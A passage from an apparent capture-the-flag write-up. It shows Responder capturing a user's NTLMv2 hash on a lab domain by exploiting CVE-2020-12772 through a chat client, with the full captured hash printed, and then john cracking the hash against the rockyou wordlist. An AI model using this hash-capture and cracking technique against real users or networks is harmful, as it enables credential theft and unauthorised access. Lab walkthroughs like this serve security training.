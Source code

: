 ```
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.14.32.60]
    Challenge set              [1122334455667788]



[+] Listening for events...
```

Now let's get the NTLM hash of a user. If you remember, we can see who is online on the main page of the website. Buse Candan seems always online. Let's search for his name at the bottom of the GUI :  
![](https://i.imgur.com/eb62wWq.jpg)  

It opens up another window :  
![](https://i.imgur.com/hJ60Vtb.jpg)  

We can right click on `buse@fire.windcorp.thm` and select `Conversion` to start a conversation with `Buse Candan` :  
![](https://i.imgur.com/DU7ekFS.jpg)  

Now, we can exploit [CVE-2020-12772](https://nvd.nist.gov/vuln/detail/CVE-2020-12772) :  
![](https://i.imgur.com/FswSL0c.jpg)  

Now let's take a look at [Responder](https://github.com/SpiderLabs/Responder) :  
```
[+] Listening for events...
[HTTP] NTLMv2 Client   : 10.10.11.49
[HTTP] NTLMv2 Username : WINDCORP\buse
[HTTP] NTLMv2 Hash     : buse::WINDCORP:1122334455667788:16998638821A2C9C1543A335A2FA64DC:0101000000000000E05C1651CE32
D901106498E2612BD596000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062
002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500
120073006D0062002E006C006F00630061006C000800300030000000000000000100000000200000038BABF4BBB8507BB4EC2D70DF0D0D4A834D3B
62097FF9914688C83B9D4891850A00100000000000000000000000000000000000090000000000000000000000
```

## Cracking NTLM hash

We captured the NTLM hash of `buse` ! Now, let's try to crack it using [john](https://www.openwall.com/john/doc/) :  
```
attacker@AttackBox:~/Ra$ nano hash.txt 
attacker@AttackBox:~/Ra$ /opt/john/run/john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
**********      (buse)     
1g 0:00:00:02 DONE (2023-01-28 05:17) 0.3412g/s 1010Kp/s 1010Kc/s 1010KC/s v#glbm7+..uya+kyo9049578
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```
